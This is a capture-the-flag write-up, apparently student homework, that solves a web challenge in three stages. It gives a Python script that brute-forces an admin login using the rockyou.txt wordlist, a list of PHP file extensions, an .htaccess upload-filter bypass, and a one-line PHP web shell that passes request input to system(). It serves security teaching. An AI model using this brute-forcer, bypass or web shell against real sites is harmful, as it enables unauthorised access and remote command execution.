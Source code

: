 # Homework 3-B Sutando+ [100 points] (9 solves)
### Stage 1:
In robots.txt file, we can find the php file `/admin_as124j.php`. In the php page, we see there is a youtube channel refers to the famous band "queen", also a hidden login system from the source code of the page. Wild guess the username is `admin`(the system will tell you the username and password are both incorrect if you enter any other username), now we need to find the password.
When we search the relationship between queen band and admin, password, which queen band's song "we will rock you" here is refers to the [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) password leak. We can use the wordlist for password cracking. 
By running below python script:
```python
import requests
url = "http://chal.firebird.sh:35017/admin_as124j.php"

payload = {
    'username': 'admin',
    'password': 'admin',
    'login': 'login'
}

headers = {
    'Host': 'chal.firebird.sh:35017',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://chal.firebird.sh:35017',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Referer': 'http://chal.firebird.sh:35017/admin_as124j.php',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9',
    'Connection': 'keep-alive',
}


with open("rockyou.txt", encoding="utf-8", errors='ignore') as f:
    password_list = f.readlines()
    total = len(password_list)
    for order, i in enumerate(password_list):
        password = str(i.strip('\n'))
        payload['password'] = password
        response = requests.post(url, data=payload, headers=headers)
        if 'incorrect' not in response.text:
            print(i.strip('\n'))
            break
        else:
            print(f"current progress: {order+1}/{total}  ------  {password}")
```
The list is very long, but the password we want only takes hundreds iteration. Get the password printed, login to next stage.
### Stage 2:
From the page, we can see a fake flag `/flag{R0ck_y0u_1n_y0r3_h34rt_uwu!}` with prefix `/`, this usually implies file or directory. After several attempts, it is a `.php` file.
### Stage 3:
A file upload system, which usually implies the "php upload vulnerability". Some suffix related to php are 
```
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
```
However, most of them will not work, also the system will block you upload `.php` files. The only useful one is `.htaccess`, it could make the system see `.hph` as `.php`. First, upload a file `.htaccess` with content `AddType application/x-httpd-php .hph` to the server, then upload another file with suffix `.hph` with content:
```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```
We go to the destination of the file, add `?cmd=` after the url to use cmd to check where the file is. 
With `?cmd=ls ../../../../../../ -a`, the flag file was found.